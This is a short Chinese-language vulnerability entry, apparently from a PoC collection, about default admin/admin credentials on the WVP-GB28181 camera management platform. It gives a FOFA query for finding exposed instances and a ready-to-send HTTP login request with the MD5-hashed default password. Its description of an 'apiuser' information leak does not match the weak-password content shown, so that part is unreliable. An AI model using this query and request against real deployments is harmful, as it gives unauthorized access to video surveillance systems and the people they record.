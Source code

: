 # WVP-GB28181摄像头管理平台存在弱口令

## 1.漏洞描述

GB28181Q是公共安全视频监控联网系统信息传输、交换、控制技术要求的标准。该标准主要定义了基于IP网络的音视频监控系统的整体架构，包括前端设备、存储设备、管理平台等组成部分，以及设备接入、流媒体传输、信令交互、存储管理、安全防护和平台管理等方面的要求。

WVP-GB28181-pr0开源物联网摄像头管理平台apiuser接口村存在信息泄露漏洞，攻击者可利用漏洞获取当前系统管理员用户名及密码进行登录系统，使系统处于极不安全的状态。

## 2.影响版本

WVP-GB28181摄像头管理平台

## 3.搜索语法

```plain
 fofa：body="国标28181"
```

## 4.漏洞复现

弱口令为

```plain
admin/admin
```

POC为

```plain
GET /api/user/login?username=admin&password=21232f297a57a5a743894a0e4a801fc3 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Mobile: ?0 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0 
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: close


```

响应码为200，响应包显示如下：

![image-20240617202409584](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240617202409584.png)